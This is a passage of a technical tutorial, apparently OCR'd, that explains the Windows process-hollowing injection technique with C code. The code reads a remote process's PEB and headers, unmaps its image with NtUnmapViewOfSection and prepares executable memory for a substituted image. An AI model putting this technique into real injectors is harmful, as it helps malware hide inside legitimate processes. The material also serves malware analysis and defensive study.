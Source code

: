 		  return;
	}

 
Once the process is created its memory space can be modified using the handle provided by the hProcess member of the PROCESS_INFORMATION structure.

## Gathering Information
First, the base address of the destination image must be located. This can be done by querying the process with NtQueryProcessInformation to acquire the address of the process environment block (PEB). The PEB is then read using ReadProcessMemory. All of this functionality is encapsulated within a convenient helper function named ReadRemotePEB.

PPEB pPEB = ReadRemotePEB(pProcessInfo->hProcess);
 
Once the PEB is read from the process, the image base is used to read the NT headers. Once again ReadProcessMemory is utilized, and the functionality is wrapped in a convenient helper function.

	PLOADED_IMAGE pImage = ReadRemoteImage
	(
		  pProcessInfo->hProcess,
		  pPEB->ImageBaseAddress
	);
 
Carving The Hole
With headers in hand there is no longer a need for the destination image to be mapped into memory. The NtUnmapViewOfSection function can be utilized to get rid of it. 


	printf("Unmapping destination section\r\n");

	HMODULE hNTDLL = GetModuleHandleA("ntdll");

	FARPROC fpNtUnmapViewOfSection = GetProcAddress
	(
		  hNTDLL,
		  "NtUnmapViewOfSection"
	);

	_NtUnmapViewOfSection NtUnmapViewOfSection =
		  (_NtUnmapViewOfSection)fpNtUnmapViewOfSection;

	DWORD dwResult = NtUnmapViewOfSection
	(
		  pProcessInfo->hProcess,
		  pPEB->ImageBaseAddress
	);

	if (dwResult)
	{
		  printf("Error unmapping section\r\n");
		  return;
	}
 
Next, a new block of memory is allocated for the source image. The size of the block is determined by the SizeOfImage member of the source images optional header. For the sake of simplicity the entire block is flagged as PAGE_EXECUTE_READWRITE, but this could be improved upon by allocating each portable executable section with the appropriate flags based on the characteristics specified in the section header.
